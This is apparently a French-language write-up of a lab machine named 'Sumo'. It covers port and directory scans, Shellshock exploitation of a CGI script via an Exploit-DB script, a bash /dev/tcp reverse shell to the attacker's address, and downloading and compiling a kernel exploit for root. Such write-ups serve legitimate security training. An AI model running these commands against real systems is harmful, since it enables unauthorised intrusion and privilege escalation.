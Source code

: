 # Sumo

    sudo nmap -p- -sV -T5 192.168.161.87
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.161.87 --tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.161.87
    gobuster dir -u http://192.168.161.87 -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
Scans classiques.

Absolument rien d'exploitable sur le site à première vue : 

> /.htpasswd (Status: 403) [Size: 291]   
> /.htaccess (Status: 403) [Size: 291]   
> /cgi-bin/ (Status: 403) [Size: 290]   
> /index (Status: 200) [Size: 177]   
> /server-status (Status: 403) [Size: 295]

Mais en lançant un scan avec Nikto on voit que le site serait potentiellement exposé aux vulnérabilités de type Shellshock. Et c'est vrai que le fait de voir un dossier **/cgi-bin/** doit être un déclic pour tester la Shellshock, même si il est en 403.

    ffuf -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://192.168.161.87/cgi-bin/FUZZ.sh -e .sh,.cgi -fc 403
Ce fuzzing fonctionne et nous sort des résultats positifs pour **"test"** et en effet l'URL http://192.168.161.87/cgi-bin/test amène sur une page indiquant **"CGI Default !"**

Pour l'exploitation, j'ai trouvé un bon script tout fait au lieu de m'embêter à passer par cURL : 
<br /> https://www.exploit-db.com/exploits/34900

    vim exploit_Shellshock.py
    python2.7 exploit_Shellshock.py payload=reverse rhost=192.168.161.87 lhost=192.168.45.171 lport=9999 pages=/cgi-bin/test
    /bin/bash -i >& /dev/tcp/192.168.45.171/1234 0>&1
    cat local.txt

Élévation de privilèges classique avec un CVE : 

    wget http://192.168.45.171/linpeas.sh
    chmod u+x ./linpeas.sh
    ./linpeas.sh | tee resultat.txt
    ...
    wget http://192.168.45.171/exploit_Linux_33589.c
    gcc exploit_Linux_33589.c -O2 -o ./33589.sh
    ./33589.sh 0
    ls /root
    cat /root/proof.txt
